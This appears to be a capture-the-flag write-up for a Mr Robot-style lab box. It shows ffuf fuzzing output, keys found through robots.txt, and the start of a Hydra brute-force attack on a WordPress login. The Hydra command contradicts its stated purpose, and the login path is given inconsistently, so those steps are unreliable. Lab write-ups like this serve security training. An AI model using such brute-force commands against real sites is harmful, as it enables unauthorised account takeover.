 ```bash
[Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 256ms]
| RES | cdf33a13f18321d4c04d96cd6ba5528e
    * FUZZ: license

[Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 202ms]
| RES | 9ca9226179afd0b70cbcb8c2e1756570
    * FUZZ: wp-includes

[Status: 301, Size: 230, Words: 14, Lines: 8, Duration: 199ms]
| RES | 6a2a16a93d6467477ec7b1ce836b166a
    * FUZZ: js
    * Found:
	    * Forbidden
		    * You dont have permission to access /js/

[Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 781ms]
| RES | 151b15742d75e668a34d97d172c93f90
    * FUZZ: Image

[Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 201ms]
| RES | f8301c428b5f0408d5f4ebcf5b6b2bd6
    * FUZZ: readme
    * Found:
	    * I like where you head is at. However I'm not going to help you.

[Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 636ms]
| RES | 74f488ff9d58f202b9abe12577f9b0c9
    * FUZZ: robots
    * Found:
	    * User-agent: *
		* fsocity.dic
		* key-1-of-3.txt

```

---

# Enumeration
## Port 80 - HTTP (Apache)
Found the first key under `/key-1-of-3.txt` and we found this directory by looking in `/robots.txt`.

We also found a dictionary of `fsocity.dic` and downloaded that onto our machine. The next find was from our ffuf scans we located a directory of `/wb-login` which takes us to a log in page.


---

# Exploitation
## Dictionary Attack on /wb-login
1. To start we found a dictionary in our enumeration stage with over 85000 lines. We will use this for both the Username and Password on this login page
2. First up is trying to figure out the Username. When we test signing into the account we can see that it gives us a message **Error Invalid Username**
	1. `hydra -l Elliot -p fsocity.dic -f 10.10.43.41 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PWD^:Invalid'`
	2. We will use **Hydra** in order to brute force the username. We are telling it to ignore `Invalid` and mark the ones that come back without that.
	3. We found `Elliot` in a few seconds
3. Next up we are going after the password of the user we found in the last step.